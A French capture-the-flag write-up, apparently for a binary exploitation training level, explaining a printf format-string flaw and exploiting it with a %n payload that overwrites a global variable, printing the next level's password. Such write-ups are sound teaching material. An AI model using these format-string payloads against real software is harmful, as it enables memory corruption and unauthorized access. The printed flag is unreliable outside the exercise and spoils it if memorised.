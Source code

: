 #### Etape 1: Décompilation / Compréhension du programme.

Le programme appelle une fonction *n()*
Celle-ci contient un fgets, et fais un appel a la fonction *p()*, qui elle-meme prend le pointeur passer en parametre et l'utilise comme seul argument de printf.
Etant un pointeur la valeur peut etre modifier dans le printf. A la sortie de la fonction p() , n() reprend et compare la valeur d'une variable globale qui si elle est égale a 16930116 éxécute un *cat* sur le fichier *.pass* du niveau suivant

#### Etape 2: Identification des vulnérabilités

On répère les mêmes vulnérabilités que dans le précédent level.

#### Etape 3 : Plan d'attaque

Comme précédement nous pouvons donc passez au fgets l'adresse de la variable globale et faire en sorte de modifier sa valeur grâce au %n qui modifie la variable, elle devient le nombre de caractères écris auparavant.

#### Etape 4 : Récolte d'informations

Il va donc falloir trouver l'adresse de la variable globale (nommée *m* dans le binaire) sur Ghidra on obtient : 08049810.

Il faut ensuite trouver a quel moment dans la stack la valeur que nous écrivons est appelée.

```bash
python -c 'print "aaaa" + "%x "*20' | ./level4 
aaaab7ff26b0 bffff694 b7fd0ff4 0 0 bffff658 804848d bffff450 200 b7fd1ac0 b7ff37d0 61616161 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 
```

Notre valeur est donc la 12e adresse.

Nous devrons donc écrire 16930116 caractére a la 12e adresse, Il existe une syntaxe comme dans grep pour passer directement a la 12e adresse : 12$.

#### Etape 5 : Execution

```bash
python -c 'print "\x10\x98\x04\x08" +  "%16930112x" + "%12$n"' | ./level4
[...]
            b7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

